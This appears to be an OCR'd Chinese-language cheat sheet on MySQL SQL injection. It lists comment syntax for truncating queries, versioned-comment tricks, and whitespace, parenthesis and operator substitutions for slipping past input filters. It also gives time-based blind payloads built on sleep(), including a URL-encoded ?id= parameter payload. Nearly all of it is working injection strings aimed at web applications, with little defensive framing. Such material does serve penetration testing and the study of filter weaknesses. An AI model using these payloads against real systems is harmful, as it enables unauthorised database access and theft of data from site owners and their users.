 
## 一、查询数据库信息
mysql 5 联合查询；mysql 4 不支持联合查询。  

我们平时在注入中使用UNION查询一般都采用数字匹配字段的方式以达到select_expression的适用条件（即UNION后面查选的字段数量、字段数据类型都应该与最前面SELECT的一样），这是因为数字役属于几乎所有数据类型，因此可以匹配任何字段，HEX编码方式同样役属于几乎所有数据类型。  

可以使用很多单双引号，只要是成对出现的。  
``` 
SELECT * FROM Articles WHERE id = '1''';
SELECT 1 FROM dual WHERE 1 = '1'''''''''''''UNION SELECT '2';
```

下面的符号可以用来注释语句：  
&#35; Hash 语法（注意浏览器访问时需要编码成%23，否则被当作锚点起始）  
/*  C-style 语法  
-- - SQL 语法  
--+ Mysql语法  
;%00 空字节  
` 反引号  

Mysql中，`/*! SQL 语句 */` 这种格式里面的 SQL 语句会当正常的语句一样被解析。  
如果在!之后是一串数字(这串数字就是 mysql 数据库的版本号)， 如：`/*! 12345 SQL 语句 */`  
当版本号大于等于该数字，SQL 语句则执行，否则就不执行。  
`UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+`  
`SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);`  

允许的字符:  
09 Horizontal Tab  
0A New Line  
0B Vertical Tab  
0C New Page  
0D Carriage Return  
A0 Non-breaking Space  
20 Space  
例子：`'and%0A%09UNION%0CSELECT%A0NULL%20%23`  

括号也可以用来绕过过滤空格的情况：  
28 (  
29 )  
例子：`UNION(SELECT(column)FROM(table))`  

AND或OR后面可以跟的字符:  
20 Space  
2B +  
2D -  
7E ~  
21 !  
40 @  
例子：`SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))`  
dual 是一个虚拟表，可以用来做测试。  
注意：  
where a_exp or b_exp 中如果 a_exp is true 是不会计算 b_exp 的，如果 a_exp is false，那 b_exp 执行且执行的次数跟表的条目有关，即如果 b_exp 是 sleep(2)，而表有3个条目，将睡眠6s 后返回。    
where a_exp and b_exp 中如果 a_exp is false 是不会计算 b_exp 的，如果 a_exp is true，那 b_exp 执行且执行的次数跟表的条目有关，即如果 b_exp 是 sleep(2)，而表有3个条目，将睡眠6s 后返回。     
在没有加() 等其他符号时， and 和 or 一起出现先计算 and，为了绕过对 and / or 的过滤，可以使用 rlike 等关键字，比如 `where 11=11 rlike sleep(10)#`。     
`?id=1%27%20AnD%201=2%20OR%20if(now()%3dsysdate()%2csleep(3)%2c0)%20And%20%271%27=%271`  

